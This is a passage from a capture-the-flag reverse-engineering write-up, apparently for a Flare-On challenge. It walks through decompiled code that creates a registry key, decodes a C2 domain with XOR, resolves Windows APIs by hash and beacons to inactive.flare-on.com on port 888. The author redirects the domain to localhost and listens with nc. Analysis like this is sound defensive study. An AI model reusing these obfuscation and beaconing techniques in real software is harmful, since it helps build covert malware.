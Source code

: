 I skipped through the next bit, down to where it calls `set_regkey`.
This actually creates the reg key `HKCU:\SOFTWARE\Microsoft\Spell` if it
doesn't exist.

I'll come back to `decrypt_flag_sortof` and `descramble_flag?` as well.

#### C2

The `init_c2` function (at 0x1f80) calls `WSAStartup` and then calls a
function I named `c2` (at 0x2070). This function creates a TCP socket
(with `socket`) and then builds the string `inactive.flare-on.com`:



        format_string_sdots[0] = 0x38b2f282;
        format_string_sdots[1] = 0x1d9c81d4;
        j = 0;
        i = j;
        do {
          format_string_sdots[i] = format_string_sdots[i] ^ 0x1d9c81a7;
          i = i + 1;
        } while (i < 2);
        sprintf(inactive,format_string_sdots,(longlong)&param_1[0x25].y + 1,param_1[0x31])



Next it resolves and connects to that domain on TCP 888:



                        /* gethostbyname */
        loaded_function = (code *)load_by_hash((char *)0x0,4,0xf44318c6);
        hostent = (hostent *)(*loaded_function)();
        if (hostent != (hostent *)0x0) {
          getiplist(ip,(undefined8 *)*hostent->h_addr_list,(longlong)hostent->h_length);
                        /* htons */
          loaded_function = (code *)load_by_hash((char *)0x0,4,0x8e9bf775);
          port_network = (*loaded_function)();
                        /* connect */
          loaded_function = (code *)load_by_hash((char *)0x0,4,0xedd8fe8a);
          res = (*loaded_function)(sockd,&local_80,0x10);



I'll add the domain to `C:\windows\system32\drivers\etc\hosts` to
resolve to 127.0.0.1 so it connects to me. I'll also start `nc.exe`
listening on 888.

If it connects, it sends a `@`:



            local_c8 = 0;
            local_c4 = L'@';
                        /* lstrlen */
            loaded_function = (code *)load_by_hash((char *)0x0,1,0x2d40b8e6);
            len_str = (*loaded_function)();
            local_c0 = 0;
            local_bc = L'@';
                        /* send */
            loaded_function = (code *)load_by_hash((char *)0x0,4,0xe797764);
            res = (*loaded_function)(sockd,&local_bc,len_str,0);
